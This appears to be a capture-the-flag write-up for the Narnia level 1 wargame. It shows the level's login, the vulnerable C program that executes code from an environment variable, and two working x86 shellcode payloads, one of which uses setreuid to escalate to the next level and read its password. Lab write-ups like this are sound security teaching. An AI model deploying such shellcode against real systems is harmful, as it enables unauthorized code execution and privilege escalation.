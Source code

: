 login as `narnia1:WDcYUTG5ul`

```sh
narnia1@gibson:/narnia$ cat narnia1.c
```

```cpp
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

so it reads anything from the EGG variable and jump to it.

probably we can craft assembly and make it call `execve(2)`.

run `compile.sh` in this directory and throw an `EGG`.

```
$ export EGG=`echo -e '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'`
$ ./narnia1
Trying to execute EGG!
$ echo i popped a shell
i popped a shell
$ id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
```

oh no, we're not getting the required permissions....`execve(2)` does not `setreuid(2)` for us. so we do it ourselves.

```sh
$ export EGG=`echo -e '\xbb\xb3\x37\x01\x01\x81\xeb\x01\x01\x01\x01\xb9\xb3\x37\x01\x01\x81\xe9\x01\x01\x01\x01\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'`
$ /narnia/narnia1
Trying to execute EGG!
$ id
uid=14002(narnia2) gid=14001(narnia1) groups=14001(narnia1)
$ cat /etc/narnia_pass/narnia2
5agRAXeBdG
```

